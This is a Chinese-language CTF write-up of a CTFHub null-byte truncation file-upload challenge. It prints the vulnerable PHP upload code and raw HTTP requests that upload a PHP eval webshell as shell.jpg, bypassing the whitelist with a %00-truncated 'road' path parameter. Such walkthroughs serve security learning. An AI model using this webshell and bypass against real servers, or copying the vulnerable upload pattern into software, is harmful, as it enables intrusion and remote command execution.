

# CTFHUB_00截断

## 题目内容




## WriteUp

00截断已经是php5版本的事情了，但是ctf赛题中仍然可能出现，还是尝试上传一个htaccess，提示文件类型不匹配，判断应该是文件后缀白名单或者类型白名单

那我们上传一个shell.php抓包看看，不过在返回包里面发现了源码

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

确定是文件名白名单

但是根据http包的参数可以看出存在一个路由

```
POST /?road=/var/www/html/upload/ HTTP/1.1
Host: challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGc0qmvrJLZ5AdZku
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800/?road=/var/www/html/upload/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close

------WebKitFormBoundaryGc0qmvrJLZ5AdZku
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: application/x-php

<?php @eval($_POST['cmd']); ?>

------WebKitFormBoundaryGc0qmvrJLZ5AdZku
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryGc0qmvrJLZ5AdZku--

```

这个路由是否对上传有影响暂时不知道，但是上传成功没有给路径，但是可以看出是在/upload下，多次上传无果，看了一下wp

发现自己忽略了一个关键信息

```php
$des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
```

在这里有一个对文件名的定义，这个road是可控的，可以改为`/var/www/html/upload/shell.php%00`来截断

> 0x00是十六进制表示方法，是ascii码为0的字符，在有些函数处理时，会把这个字符当做结束符。这个可以用在对文件类型名的绕过上。

通常文件名也可以通过00截断绕过，但是这次不行,因为这次取后缀前面的内容为随机生成，就算截断成功也无法拿到文件名

成功上传的数据包如下

```
POST /?road=/var/www/html/upload/shell.php%00 HTTP/1.1
Host: challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5BzosmVPJAABLp98
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close

------WebKitFormBoundary5BzosmVPJAABLp98
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: application/x-php

<?php @eval($_POST['cmd']); ?>

------WebKitFormBoundary5BzosmVPJAABLp98
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary5BzosmVPJAABLp98--
```

